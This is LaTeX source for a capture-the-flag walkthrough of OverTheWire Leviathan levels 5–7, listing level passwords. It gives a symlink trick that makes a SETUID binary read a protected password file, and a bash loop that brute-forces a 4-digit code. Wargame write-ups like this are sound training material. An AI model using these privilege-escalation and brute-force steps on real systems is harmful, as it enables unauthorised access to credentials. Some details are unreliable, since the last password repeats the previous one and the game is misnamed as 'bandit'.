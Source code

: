 \documentclass[a4paper]{article}
\newcommand{\pass}[1]{\textbf{Password to enter:} \textit{#1}\\}
\newcommand{\chall}{\textbf{Challenge:} }
\newcommand{\note}[1]{\textit{\textbf{Note:} #1}\\}
\begin{document}
\subsection*{leviathan5}
\pass{Tith4cokei}
\chall There is a \textit{SETUID} executable in the home directory, it reads the file \textit{/tmp/file.log}, then deletes it. Inspection using \textbf{ltrace -S}, reveals that the executable does not check if the file is a symbolic link.
\begin{lstlisting}[deletekeywords={file}]
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
\end{lstlisting}

\subsection*{leviathan6}
\pass{UgaoFee4li}
\chall This level has yet another \textit{SETUID} executable in the home directory. When prompted for use the response is:
\begin{lstlisting}[morekeywords={leviathan6}]
~$ ./leviathan6
usage: ./leviathan6 <4 digit code>
\end{lstlisting}
As this requires brute-forcing, we'll create a script to input the 9999 possible passcode combinations:
\begin{lstlisting}[morekeywords={leviathan6}, deletekeywords={in}]
#!/bin/bash
for num in {0000..9999}
do
	echo "$num"
	/home/leviathan6/leviathan6 $num
	sleep 0.001
done
\end{lstlisting}
\note{This script will enter the pause when we enter the correct passcode and enter the leviathan7 shell, then resume on exit}

\href{https://blvckb3vrd.wordpress.com/2015/12/15/overthewire-leviathan-level-6/}{A writeup of assembly code analysis, instead of brute-forcing}

\subsection*{leviathan7}
\pass{UgaoFee4li}
\begin{center}
This level has no challenge, it's the final level of the bandit wargame.
\end{center}
\end{document}
